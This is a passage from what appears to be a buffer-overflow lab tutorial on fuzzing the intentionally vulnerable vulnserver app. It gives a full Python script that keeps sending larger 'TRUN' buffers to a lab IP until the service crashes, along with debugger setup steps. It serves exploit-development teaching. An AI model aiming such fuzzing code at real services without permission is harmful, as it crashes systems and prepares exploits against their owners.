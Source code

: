
Fuzzing is just like spiking, but now that we know that this server is vulnerable to `TRUN` and not `STATS` we will use this python2 script for it :

```python
#!/usr/bin/python
 
import sys, socket
from time import sleep
 
buffer = "A" * 100
 
while True:
    try:
        payload = "TRUN /.:/" + buffer
 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.35',9999))
        print ("[+] Sending the payload...\n" + str(len(buffer)))
        s.send((payload.encode()))
        s.close()
        sleep(1)
        buffer = buffer + "A"*100
    except:
        print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()
```

The purpose of this script is so far there is connection to our target which is specified with the `ip` and `port` , it will keep sending buffer, we are trying to narrow down where things are breaking and it byte size

- Save your script with `.py` and make sure you have immunity debugger and vulnserver ready
- Also make sure you click the `run` button first on immunity debugger before moving on

![](https://i.imgur.com/80EQ0QI.png)

- Now run your script and notice what is going on

![](https://i.imgur.com/a4kuXNN.png)
